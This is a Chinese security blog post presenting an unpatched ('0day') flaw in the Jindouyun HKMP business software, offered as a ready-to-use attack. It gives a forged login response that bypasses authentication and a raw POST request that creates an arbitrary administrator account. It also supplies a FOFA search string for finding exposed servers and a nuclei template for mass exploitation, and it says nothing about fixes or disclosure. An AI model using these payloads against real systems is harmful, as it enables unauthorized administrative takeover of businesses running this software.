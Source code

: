 #  【0day】金斗云HKMP智慧商业软件   
原创 shuxi  黑白防线   2024-07-04 19:24  
  
作者 | 书汐  
  
  
**一、金斗云HKMP智慧商业软件介绍：**  
  
  
  
金斗云智慧商业软件是一款功能强大、易于使用的智慧管理系统，通过智能化的管理工具，帮助企业实现高效经营、优化流程、降低成本，并提升客户体验。  
  
  
  
**二、漏洞描述：**  
  
  
**01.逻辑漏洞：**  
  
登录时输入任意用户，然后抓包替换返回包如下即可登录后台  
```
HTTP/1.1 200 
Content-Type: application/json
Date: Tue, 25 Jun 2024 15:22:37 GMT
Connection: close
Content-Length: 205

{"code":"1000","message":"成功","data":{"userCode":"admin","userName":"系统管理员","level":"*","privilege":"*","version":"1.0.138.387","companyName":"","logo":"","expiryTime":"2034-03-20 00:00:00"}}
```  
  
****  
  
  
**02.任意用户创建：**  
  
直接发送下面数据包****  
  
```
POST /admin/user/add HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
 
{"appId":"hkmp","mchId":"hkmp","deviceId":"hkmp","timestamp":1719305067,"nonce":5223015867,"sign":"hkmp","data":{"userCode":"root1234","userName":"root1234","password":"123456","privilege":["1000","8000","8010","2000","2001","2010","7000"],"adminUserCode":"admin","adminUserName":"系统管理员"}}
```  
  
  
  
  
**三、漏洞复现：**  
  
  
**01.fofa语句**  
  
```
title=="金斗云"
```  
  
  
  
**02.逻辑漏洞**  
  
  
打开目标网址，随意输入账号密码点击登录进行抓包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2lLNALUug2MqQF21tzLPcMDiahLc3MnmHoicT0mJy2zfjfeb6872Qf6Thw/640?wx_fmt=png&from=appmsg "")  
  
  
替换响应包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2lziaLzr4IlZHia6pJxzmtkjtuPnKvoRPQZib9JdEyQ8bQibCSY5WYVa55bQ/640?wx_fmt=png&from=appmsg "")  
  
  
  成功登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2lVibzXEVic2mIO4X1WQOJe0wB9p99rv1E0lHWiaHNNIY5jp9dS5jjvh57g/640?wx_fmt=png&from=appmsg "")  
  
  
**02.任意用户创建**  
  
直接向目标发送pyload即可****  
  
![](https://mmbiz.qpic.cn/mmbiz_png/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2lWc2vUYhTdMF0UiakDK0iayjh4yYNTepqO3MqbspPI4vTqsH57zuBwUmw/640?wx_fmt=png&from=appmsg "")  
  
  
**03.nuclei 批量扫描poc**  
  
记得更改里面的用户名哦  
```
id: HKMP-logical-vulnerability

info:
  name: WebFuzzer Template kaUGtMby
  author: god
  severity: high
  description: write your description here
  reference:
  - https://github.com/
  - https://cve.mitre.org/
  metadata:
    max-request: 1
    shodan-query: ""
    verified: true

http:
- method: POST
  path:
  - '{{RootURL}}/admin/user/add'
  headers:
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Content-Length: "251"
    Content-Type: application/json;charset=UTF-8
    Origin: http://121.29.1.125:8090
    Priority: u=1
    Referer: http://121.29.1.125:8090/
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101
      Firefox/127.0
    X-Requested-With: XMLHttpRequest
  body: '{"appId":"hkmp","mchId":"hkmp","deviceId":"hkmp","timestamp":1719305067,"nonce":5223015867,"sign":"hkmp","data":{"userCode":"fuckyou2","userName":"fuckyou2","password":"fuckyou2","privilege":["1000","8000","8010","2000","2001","2010","7000"],"adminUserCode":"admin","adminUserName":"系统管理员"}}'

  max-redirects: 3
  matchers-condition: and
  matchers:
    - type: status
      status:
        - 200
    - type: word
      part: body
      words:
        - "成功"
```  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2l2TM2rpRD3XnWs43uCUlQw0JicBv761YzXFFs9GNz8AKhicSwiaWxBGXWw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/f8s36zibL97jiayuoJnTo10iaTpvD2h7G2l7dmCq9Ob7fAb2wAI0OyuFCZFMAgZa5q5POiaSSQaCXNdN5c2vZjfPdg/640?wx_fmt=jpeg&from=appmsg "")  
  
**-END-**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/sQp0ND8WLtPmj2w2IXdNZJ63At39Ax6MGIVBhoFgBICFETdQx2C0l1T1X0hAthk1Fic11VfgaibBb7J5VvOGRcow/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
喜欢就点个关注吧~                       
![](https://mmbiz.qpic.cn/mmbiz_gif/GtWwdCwkv7FoZELv8KXyj9QRscWJkKCzpmiaqCmVvWQp2PaS7NWwlHojLQz6HQoloicvjichnlSfTVVelMlM5YcSg/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
  
  
     
  
  
  
  
**往期文章：**  
  
[](http://mp.weixin.qq.com/s?__biz=Mzg2NzgzOTcxNA==&mid=2247490258&idx=1&sn=337d79617a37b7153a588a126a90147e&chksm=ceb4215ff9c3a849155c429c79f05a32cd96fd5832f0aeacf86572b8fd91ea149def91e726ce&scene=21#wechat_redirect)  
  
[SSH-RCE（CVE-2024-6387）](http://mp.weixin.qq.com/s?__biz=MzkxNDY5NzMxNw==&mid=2247483979&idx=1&sn=c7dad3304cb4f3328dd6e7e905ddf907&chksm=c16b3f41f61cb657bac830209c0935419313b41157ce7a1fe7690e88644e6450538673d9645e&scene=21#wechat_redirect)  
  
  
[web安全之登录框渗透骚姿势](http://mp.weixin.qq.com/s?__biz=MzkxNDY5NzMxNw==&mid=2247483727&idx=1&sn=bcdf09a9eb4b0b64b2e9c52239ba49dd&chksm=c16b3c45f61cb5536103395b060320416a9d23c54fe647169d90ca71a1afb00970ec597e60a5&scene=21#wechat_redirect)  
  
  
[Cobalt_Strike（CS）安装到免杀上线](http://mp.weixin.qq.com/s?__biz=MzkxNDY5NzMxNw==&mid=2247483862&idx=1&sn=c6b4da3ce5772a075431098227397baa&chksm=c16b3cdcf61cb5ca06f615130cde9e20719a516476609442f329bf4eeb143c656ea6e5c16cd2&scene=21#wechat_redirect)  
  
  
[ARL灯塔魔改，自动化资产搜集+漏扫+推送+1W加指纹](http://mp.weixin.qq.com/s?__biz=MzkxNDY5NzMxNw==&mid=2247483817&idx=1&sn=676782a684e863619be28cd7aa507da0&chksm=c16b3ca3f61cb5b557179ef1d3851670f55392ec6fc9909fdbce4155b8fa2d7fbd4da1f8c64f&scene=21#wechat_redirect)  
  
  
[Windows权限提升方式总结](http://mp.weixin.qq.com/s?__biz=MzkxNDY5NzMxNw==&mid=2247483898&idx=1&sn=b5f2e9574753adf96ef59abeb1cfd142&chksm=c16b3cf0f61cb5e673616a5db754c6b60ae3c6dfb1fe6c1759d8b6d640cb7f64b6bb30b6a6ed&scene=21#wechat_redirect)  
  
  
  
喜欢这篇文章记得**「点赞**  
**+****在看」**  
哟****  
********  
  
****  
  
  
  
  
  
  
  
